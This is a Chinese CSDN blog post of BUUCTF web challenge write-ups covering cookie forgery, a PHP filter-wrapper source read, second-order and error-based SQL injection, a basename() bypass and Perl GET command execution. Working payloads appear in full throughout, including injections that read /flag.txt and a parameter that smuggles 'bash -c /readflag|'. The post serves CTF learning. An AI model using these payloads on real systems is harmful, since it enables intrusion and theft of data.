 <!--yml
category: 未分类
date: 2022-04-26 14:33:38
-->

# BUUCTF__web题解合集（十二）_风过江南乱的博客-CSDN博客

> 来源：[https://blog.csdn.net/tm_1024/article/details/108922173](https://blog.csdn.net/tm_1024/article/details/108922173)

## 前言

## 题目

### 1、[BSidesCF 2019]Kookie

*   虽然是很简单，但是有点难想。

*   只需在请求头中加上cookie发包请求就行。

    ```
    cookie:username=admin 
    ```

### 2、[CISCN2019 华北赛区 Day1 Web5]CyberPunk

*   首先可以通过首页的源代码中发现提示，然后有PHP伪协议可以读取源代码。
    ![在这里插入图片描述](img/ef05484c8c4ae0c160125fca0bd2b706.png)

    ```
    ?file=php://filter/read=convert.base64-encode/resource=index.php 
    ```

*   可以得到所有的源代码，进行代码审计。 注意到两个部分。

*   第一点就是在提交订单时的`confirm.php`，对输入的姓名电话地址几乎无过滤，虽然有一个黑名单，但没起到作用，匹配到黑名单后还会往下继续执行。

*   第二点就是在修改订单信息的`change.php`，对于输入的地址有一个`addslashes`转义处理，这就导致输入的`address`变量在这里不可利用。

*   但是在执行修改sql语句时，还是有将原来的地址取出放入sql语句。

    ```
    $address = addslashes($_POST["address"]);

    $sql = "update `user` set `address`='".$address."', `old_address`='".$row['address']."' where `user_id`=".$row['user_id']; 
    ```

*   也就是有一个利用漏洞，因为在提交订单时没有过滤，在提交订单时将payload放入地址，在修改订单信息时随便输入一个新地址，但是旧地址也在sql语句中执行。可以利用报错注入。

*   但是很重要一点，flag在哪，可以一步一步爆库爆表直到得到字段内容，没有flag。最终 flag 在`flag.txt`。通过`load_file`函数来读取文件内容。

*   payload

    ```
    1' where user_id=updatexml(1,concat(0x7e,(select substr(load_file('/flag.txt'),1,20)),0x7e),1)#

    1' where user_id=updatexml(1,concat(0x7e,(select substr(load_file('/flag.txt'),20,50)),0x7e),1)# 
    ```

*   一步一步来做的话，可能不算难，但有点麻烦。二次注入，不是什么新知识点，关键是代码审计知道利用点。

### 3、[RCTF2015]EasySQL

*   登录注册修改密码，盲猜就是二次注入。

*   在注册时，如果用户名中含双引号`"`或者注释符`\`，在修改密码时，会引发报错，可以发现，sql语句为双引号闭合，并且可能存在报错注入。同时可以猜测后端sql语句的形式为

    ```
    update users set password='xxxx' where username="xxxx" and pwd='xxxx' 
    ```

*   进一步尝试报错注入获取数据库名称。存在空格过滤，并且`and`和`or`也被过滤，可以用`&&`或`||`代替，空格则用括号分割sql语句来避免使用。

*   注册时输入用户名为payload，在修改密码提交时触发报错。

    ```
    2"&&extractvalue(1,concat(0x7e,(select(database()))))# 
    ```

![在这里插入图片描述](img/3cb034733b8a8d12267f9ca474dcd79a.png)

*   继续爆表，得到表 article、flag、users

    ```
    2"&&extractvalue(1,concat(0x7e,(select(group_concat(table_name))from(information_schema.tables)where(table_schema=database()))))# 
    ```

*   爆字段都一样，真正的flag在users表里，但字段名显示时由于有长度限制，所以没有显示完全，可以正序倒序一起来一下，也有用正则匹配输出的，确认 flag 所在字段名为`real_flag_1s_here`

    ```
    正序 
    2"&&extractvalue(1,concat(0x7e,(select(group_concat(column_name))from(information_schema.columns)where(table_name='users'))))#   

    倒序   
    2"&&extractvalue(1,concat(0x7e,reverse((select(group_concat(column_name))from(information_schema.columns)where(table_name='users')))))#

    正则           
    2"&&extractvalue(1,concat(0x7e,(select(group_concat(column_name))from(information_schema.columns)where(table_name='users')&&(column_name)regexp('^r'))))# 
    ```

*   开始直接输出全部的话，发现前面有很多干扰内容。并且分块截取的函数都被过滤了，所以只能用正则，最终得到flag。

    ```
    正序 
    2"&&extractvalue(1,concat(0x7e,(select(group_concat(real_flag_1s_here))from(users)where(real_flag_1s_here)regexp('^f'))))#

    逆序
    2"&&extractvalue(1,concat(0x7e,reverse((select(group_concat(real_flag_1s_here))from(users)where(real_flag_1s_here)regexp('^f')))))# 
    ```

*   发现了注入点的话，后面就应该不难。

### 4、[Zer0pts2020]Can you guess it?

*   首先源码给出了，flag的位置给出了，有一个好像是利用点

```
$secret = bin2hex(random_bytes(64));
if (isset($_POST['guess'])) {
  $guess = (string) $_POST['guess'];
  if (hash_equals($secret, $guess)) {
    $message = 'Congratulations! The flag is: ' . FLAG;
  } else {
    $message = 'Wrong.';
  }
} 
```

*   当`$secret`和`$guess`变量字符串相等时，输出flag，但是`$secret`变量是生成的随机数，虽然之前做过伪随机数的破解，但这里并没有利用点，所以，基本不可能相等。
*   看下面的一部分代码，会显示从当前url地址中获取最后一个文件名。当我们的url是`/index.php/config.php`时会触发前面的正则过滤。当我们的url是`/index.php/config.php/index.php`时，回显的是首页。说明url不能以`config.php`结尾，但是要读取它的话又必须让返回值为`config.php`。

```
if (isset($_GET['source'])) {
  highlight_file(basename($_SERVER['PHP_SELF']));
  exit();
} 
```

*   当`basename`函数解析到ASCII码数值之外的字符时，会忽略它，[官方文档介绍](https://bugs.php.net/bug.php?id=62119)，ASCII值范围为0-255，但ASCII码并没有规定编号为128~255的字符，ASCII表范围为0-127，也就是我们传入128(%80)以上的数值，即可绕过正则

    ```
    index.php/config.php/%80?source

    basename（）在文件名的开头丢弃非ASCII字符。

    basename() drops non-ASCII-chars at the beginning of a filename. 
    ```

*   也就是如下，因为`%80`被丢弃，`basena me($_SERVER['PHP_SELF'])`返回的将是`config.php`，同时没有以`config.php`结尾，绕过了前面的正则，成功得到flag。

*   虽然在题目环境中的确成功了，但是单独拿出来没能得到结果，是不是理解错了什么。
    ![在这里插入图片描述](img/415dc8457f951b4189c779e2440d150e.png)

*   就一点，关于`basename（）`函数的这个特性。

### 5、[HITCON 2017]SSRFme

![在这里插入图片描述](img/bb954dc4eb2075fe285de19f517cf3ef.png)

*   于是，只需要给url赋值`/`就能看到根目录，同理去读根目录下的flag文件发现失败，原因是flag不在文件中，有一个readflag文件，应该是通过它来获取flag。

    ```
    ?url=/&filename=qqq

    url/sandbox/md5("orange".'题目给的ip')/qqq 
    ```

*   然后就是本题的知识点，[perl脚本中GET命令执行漏洞](https://blog.csdn.net/qq_45521281/article/details/105868449)

*   写的太好了。。。感觉我再说都是废话。。。逻辑线就是GET命令会在底层调用open函数，而open函数又利用了perl脚本来实现，再因为open函数支持file协议，而perl在处理file协议时会path参数可控，所以存在命令执行的漏洞
    ![在这里插入图片描述](img/406696ea7f3e5f6020568789e2d1cce0.png)

*   所以，先创建一个文件名为执行命令的文件

    ```
    ?url=file:bash -c /readflag|&filename=bash -c /readflag| 
    ```

*   再次执行文件名存在而执行代码写入

    ```
    ?url=file:bash -c /readflag|&filename=b 
    ```

*   最后访问成功解题

    ```
    url/sandbox/md5("orange".'题目给的ip')/b 
    ```

*   还有另一种方法弹shell，没有vps就不复现了。有一说一，这题不是很懂执行的原因，就记GET命令可能存在代码执行漏洞了。。。

## 最后

*   越来越怀疑自己学的啥
*   欢迎各位指正交流。留言会在第一时间回复。